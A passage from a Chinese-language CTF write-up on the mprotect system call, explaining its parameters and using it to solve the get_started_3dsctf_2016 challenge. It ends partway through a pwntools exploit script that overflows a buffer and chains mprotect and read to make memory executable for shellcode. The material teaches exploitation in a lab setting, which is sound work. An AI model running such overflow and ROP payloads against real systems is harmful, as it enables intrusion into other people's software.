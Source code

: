 <img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/sys12.png?x-oss-process=style/watermark" style="zoom:80%;" />

# 二、mprotect函数

## 2.1 介绍

mprotect函数是一个系统调用，用于修改进程的内存区域的保护属性。它位于C标准库的mprotect.h头文件中，并提供了一个接口供程序员使用。mprotect函数的原型如下：

```c
int mprotect(void *addr, size_t len, int prot);
```

参数说明：

1. addr：指向要修改保护属性的内存区域的起始地址。addr必须是一个内存页的起始地址，简而言之为页大小整数倍。
2. len：要修改保护属性的内存区域的大小（以字节为单位）。最好为页大小整数倍
3. prot：内存要赋予的权限，可以使用以下常量进行设置：

- PROT_NONE：该内存区域不可访问。
- PROT_READ：该内存区域可读。
- PROT_WRITE：该内存区域可写。
- PROT_EXEC：该内存区域可执行。

mprotect函数的作用是将指定内存区域的保护属性更改为指定的值。通过修改保护属性，可以控制进程是否可以读取、写入或执行相应的内存区域。简单来说，mprotect()函数把自addr开始的、长度为len的内存区的保护属性修改为prot指定的值。然后prot=7，可读可写可执行。

## 2.2 例子

使用第一节的第二个例子，即题目：get_started_3dsctf_2016

在IDA中进行搜索，可以看到文件中存在mprotect函数：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/m1.png?x-oss-process=style/watermark" style="zoom:80%;" />

使用gdb进行调试，下断点运行以后，使用vmmap查看内存权限：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/m2.png?x-oss-process=style/watermark)

可以把 0x080ea000 到 0x080ec000 都修改成可以执行的。因此得到mprotect的参数（0x080ea000，0x2000,0x7）。同样为了使程序继续执行我们构造好的系统调用，需要把压入的参数压出，因此我们在 read 返回地址处填入一个可以pop 3个的地址

然后使用read函数写入shellcode。和上一节构造read的方法相同。构造溢出如下：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/m3.png?x-oss-process=style/watermark)

exp:

```python
# _*_ coding:utf-8 _*_
from pwn import *
elf = ELF('./get_started_3dsctf_2016')
#sh = process('./get_started_3dsctf_2016')
sh = remote('node4.buuoj.cn',27237)
pop3_ret = 0x0809e4c5
mem_addr = 0x080ea000 #可读可写的内存,但不可执行
mem_size = 0x2000    #修改大小
mem_proc = 0x7       #可代表可读可写可执行
mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']
payload_01 = 'A' * 0x38
payload_01 += p32(mprotect_addr)
payload_01 += p32(pop3_ret)   #执行完mprotect的返回地址,使esp往下+12
payload_01 += p32(mem_addr)   #mprotect函数参数1 修改的内存地址
payload_01 += p32(mem_size)   #mprotect函数参数2 修改的内存大小
payload_01 += p32(mem_proc)   #mprotect函数参数3 修改的权限
payload_01 += p32(read_addr)  #执行完上面pop3_ret后到read函数
```